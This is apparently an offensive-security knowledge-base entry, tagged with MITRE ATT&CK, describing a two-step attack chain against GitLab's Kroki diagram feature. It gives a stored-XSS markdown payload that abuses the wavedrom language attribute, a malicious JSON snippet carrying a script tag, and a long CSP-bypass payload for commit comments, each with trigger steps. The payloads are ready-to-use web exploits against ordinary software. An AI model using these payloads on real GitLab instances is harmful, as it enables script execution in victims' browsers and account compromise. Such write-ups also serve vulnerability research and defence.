

---
tags:
  - xss
  - csp-bypass
  - gitlab
  - kroki
type: attack_chain
tools:
  - '[[tools/Nokogiri]]'
  - '[[tools/jQuery]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
commands: []
platforms:
  - Web
  - Linux
complexity: medium
procedures:
  - '[[procedures/Exploit-Stored-XSS-in-GitLab-Kroki]]'
  - '[[procedures/Bypass-CSP-in-GitLab-Commit-Comments]]'
step_count: 2
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
description: >-
  Exploitation of a stored XSS vulnerability in GitLab's Kroki feature allowing
  arbitrary JavaScript execution, including a CSP bypass for enhanced impact
skill_level: intermediate
impact_level: high
id: f6303ed6-808a-422b-8af5-77f0736f7baf
created_at: '2025-12-11T03:47:56.436Z'
updated_at: '2025-12-11T03:47:56.436Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[TA0001]]'
  - '[[TA0002]]'
mitre_techniques:
  - '[[T1190]]'
  - '[[T1059.007]]'
---
# Stored XSS via GitLab Kroki Diagram with CSP Bypass

Multi-stage attack chain demonstrating exploitation of a stored XSS vulnerability in GitLab's Kroki diagram feature, allowing arbitrary JavaScript execution on victim browsers, and a CSP bypass to enable execution even with content security policies enabled.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Nokogiri]]
- #axios
- [[tools/jQuery]]

### Target Environment

- Self-hosted GitLab instance on Linux
- Required services: GitLab, Kroki
- Network access: Administrative access to GitLab settings and ability to create issues, snippets, projects, and comments

### Initial Access Requirements

- Valid GitLab account with permissions to create issues, snippets, projects, and comments
- Administrative access for enabling Kroki and CSP

## Detailed Attack Procedures

### Step 1: Exploit Basic Stored XSS - [[procedures/Exploit-Stored-XSS-in-GitLab-Kroki]]

**Procedure**: [[procedures/Exploit-Stored-XSS-in-GitLab-Kroki]]

**Objective**: Enable Kroki on the GitLab instance and inject a malicious XSS payload into an issue or comment to allow arbitrary JavaScript execution when viewed.

**Expected Output**: An alert popup or CSP violation in the console upon viewing the affected content.

**Success Indicators**:
- Kroki is enabled successfully
- Payload is stored and triggers XSS on page load

First, enable Kroki by accessing /admin/application_settings/general and toggling it on.

Then, create an issue and insert the XSS payload:

```markdown
<a><pre lang='f/" onerror=alert(1) onload=alert(1) '><code lang="wavedrom">xss</code></pre></a>
```

Reload or visit the issue to trigger the XSS. If CSP is not enabled, an alert pops; otherwise, check the console for CSP violation.

Use [[commands/gitlab-env-info]] to verify the environment:

```bash
sudo gitlab-rake gitlab:env:info
```

### Step 2: Bypass CSP for Enhanced Exploitation - [[procedures/Bypass-CSP-in-GitLab-Commit-Comments]]

**Procedure**: [[procedures/Bypass-CSP-in-GitLab-Commit-Comments]]

**Objective**: Enable CSP, set up a malicious snippet and project, and inject a bypass payload into a commit comment to execute JavaScript despite CSP restrictions.

**Expected Output**: Successful execution of arbitrary script (e.g., alert(document.domain)) after interacting with the page.

**Success Indicators**:
- CSP is enabled and initially blocks XSS
- Bypass payload loads malicious JSON and injects script
- Script executes on page interaction (e.g., double-click)

Enable CSP on GitLab as per docs: https://docs.gitlab.com/omnibus/settings/configuration.html#set-a-content-security-policy.

Create a public snippet with malicious JSON:

```json
{"html":"<script>alert(document.domain)</script>"}
```

Note the raw path (e.g., /root/kroki1/-/snippets/9/raw/main/aaa.json).

Create a new project and commit a README to generate a commit page.

View the individual commit and add a comment with the CSP bypass payload, replacing data-diff-for-path with the JSON path:

```markdown
<a><pre lang=' /" data-diff-for-path=/root/kroki1/-/snippets/9/raw/main/aaa.json '><code lang="wavedrom">csp</code></pre><pre lang=' /"id=stage1style="position:absolute;max-width:10000px;left:-1000px;top:-1000px;width:10000px;height:10000px;z-index:10000;"data-triggers="click"data-toggle=popoverdata-html=truedata-title="aaa&lt;style&gt;#stage1{pointer-events:none}svg.chevron-right{position:absolute;max-width:10000px;left:-1000px;top:-1000px !important;width:10000px;height:10000px;z-index:10001;}&lt;/style&gt;bbb"data-content=ggg'><code lang="wavedrom"> bypass </code></pre></a>
```

Reload the page and click anywhere twice to trigger the bypass and execute the script.

## Attack Chain Summary

### Key Achievements

1. Successful injection and triggering of stored XSS via Kroki
2. Bypassing CSP to execute arbitrary JavaScript
3. Potential for account compromise through victim interaction

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

*Last updated: [TIMESTAMP]*
